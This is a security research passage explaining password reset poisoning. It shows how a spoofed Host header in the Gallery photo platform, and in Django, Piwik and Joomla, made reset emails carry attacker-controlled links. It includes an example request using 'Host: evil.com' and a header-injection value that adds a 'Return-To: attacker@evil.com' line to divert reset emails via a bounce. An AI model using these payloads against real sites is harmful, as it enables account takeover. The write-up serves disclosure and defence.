

Password reset poisoning
Popular photo-album platform Gallery uses a common approach to forgotten password functionality. When a user requests a password reset it generates a (now) random key:

Places it in a link to the site:

and emails to the address on record for that user. [Full code] When the user visits the link, the presence of the key proves that they can read content sent to the email address, and thus must be the rightful owner of the account.
The vulnerability was that url::abs_site used the Host header provided by the person requesting the reset, so an attacker could trigger password reset emails poisoned with a hijacked link by tampering with their Host header:
> POST /password/reset HTTP/1.1
> Host: evil.com
> ...
> csrf=1e8d5c9bceb16667b1b330cc5fd48663&name=admin

This technique also worked on Django, Piwik and Joomla, and still works on a few other major applications, frameworks and libraries that I can't name due to an unfortunate series of mistakes on my part.
Of course, this attack will fail unless the target clicks the poisoned link in the unexpected password reset email. There are some techniques for encouraging this click but I'll leave those to your imagination.
In other cases, the Host may be URL-decoded and placed directly into the email header allowing mail header injection. Using this, attackers can easily hijack accounts by BCCing password reset emails to themselves - Mozilla Persona had an issue somewhat like this, back in alpha. Even if the application's mailer ignores attempts to BCC other email addresses directly, it's often possible to bounce the email to another address by injecting \r\nReturn-To: attacker@evil.com followed by an attachment engineered to trigger a bounce, like a zip bomb.